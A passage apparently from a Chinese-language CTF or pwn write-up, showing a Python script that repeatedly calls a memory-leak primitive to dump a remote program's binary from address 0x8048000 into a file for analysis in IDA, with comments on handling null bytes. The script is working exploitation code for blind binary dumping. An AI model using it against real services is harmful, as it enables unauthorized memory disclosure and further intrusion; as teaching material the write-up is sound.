 ```plain

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0，也就是数据是 \x00 的情况。地址增加 1，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```

通过上述 leak.py，我们可以在程序加载地址开始就泄露二进制文件，之后可以将获得的文件放入 IDA

[![](assets/1701612281-aae779bbb927fd74c12c8c7acdacd1ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224053-19348e04-2579-1.png)
